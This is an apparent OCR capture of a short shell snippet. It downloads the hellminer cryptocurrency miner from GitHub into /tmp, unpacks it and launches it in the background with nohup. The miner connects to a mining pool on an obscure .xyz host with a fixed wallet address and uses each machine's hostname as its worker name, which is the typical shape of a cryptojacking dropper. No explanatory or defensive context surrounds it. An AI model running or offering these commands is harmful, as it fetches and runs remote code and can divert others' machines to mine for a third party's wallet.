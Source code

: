 cd /tmp
wget https://github.com/hellcatz/hminer/releases/download/v0.59.1/hellminer_linux64.tar.gz
tar -xvf hellminer_linux64.tar.gz
nohup ./hellminer -c stratum+ssl://dark-bikes-build-noisily.a276.dcdg.xyz:3958 -u RHkiLGRarhTt8SF66vJzwEcyxNm4k1fXTH.$(hostname -f) -p x --cpu 4 &
